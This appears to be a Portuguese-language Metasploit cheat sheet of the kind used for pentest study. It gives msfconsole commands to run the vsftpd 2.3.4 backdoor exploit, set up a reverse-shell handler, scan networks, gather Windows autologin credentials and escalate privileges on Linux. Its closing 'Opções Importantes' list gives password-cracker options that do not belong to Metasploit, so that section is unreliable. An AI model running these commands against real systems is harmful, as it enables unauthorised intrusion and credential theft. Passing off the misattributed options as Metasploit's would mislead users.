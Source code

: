 # 🛠 Metasploit – The Basics

O **Metasploit Framework** é uma ferramenta de pentesting amplamente usada para **desenvolver, testar e executar exploits** contra sistemas e aplicações vulneráveis. Ele oferece módulos de exploração, payloads, scanners e pós-exploração, permitindo realizar testes de segurança de forma controlada e ética.

## Conceitos Principais
- **Exploit:** módulo que tira vantagem de uma vulnerabilidade específica.  
- **Payload:** código executado no sistema alvo após a exploração (ex.: shell reverso, Meterpreter).  
- **Auxiliary Modules:** módulos para varredura, fuzzing ou coleta de informações, sem exploração direta.  
- **Post-Exploitation:** módulos que permitem coletar informações adicionais, escalar privilégios ou manter acesso após exploração.  
- **Listener / Handler:** serviço que aguarda a conexão do payload de retorno.

## Inicializando o Metasploit
```bash
# Iniciar console do Metasploit
msfconsole

# Verificar versão
msfconsole --version

# Listar módulos disponíveis
msf > show exploits
msf > show auxiliary
msf > show payloads
msf > show post
```

## Configuração Básica de Exploit
```bash
# Selecionar exploit
msf > use exploit/unix/ftp/vsftpd_234_backdoor

# Definir alvo
msf > set RHOSTS 192.168.1.10
msf > set RPORT 21

# Definir payload
msf > set PAYLOAD cmd/unix/interact

# Executar exploit
msf > run
```
## Listener / Handler
```bash
msf > use exploit/multi/handler
msf > set PAYLOAD linux/x86/shell_reverse_tcp
msf > set LHOST 192.168.1.5
msf > set LPORT 4444
msf > run
```
## Auxiliares e Scanners
```bash
# Escanear portas TCP
msf > use auxiliary/scanner/portscan/tcp
msf > set RHOSTS 192.168.1.0/24
msf > run

# Coleta de informações SMB
msf > use auxiliary/scanner/smb/smb_version
msf > set RHOSTS 192.168.1.20
msf > run
```
## Pós-Exploitation
```bash
# Coleta de credenciais
msf > use post/windows/gather/credentials/windows_autologin
msf > set SESSION 1
msf > run

# Escalada de privilégios Linux
msf > use post/linux/escalate/sudo
msf > set SESSION 2
msf > run
```
## Opções Importantes
- **wordlist=<arquivo>** → define a lista de palavras para ataque de dicionário (quando aplicável).
- **rules** → aplica regras de mutação à wordlist (quando aplicável).
- **incremental** → modo de ataque por força bruta otimizado (quando aplicável).
- **format=<tipo>** → especifica o tipo de hash (quando aplicável).
- **show** → mostra senhas quebradas de um arquivo de hashes (quando aplicável).
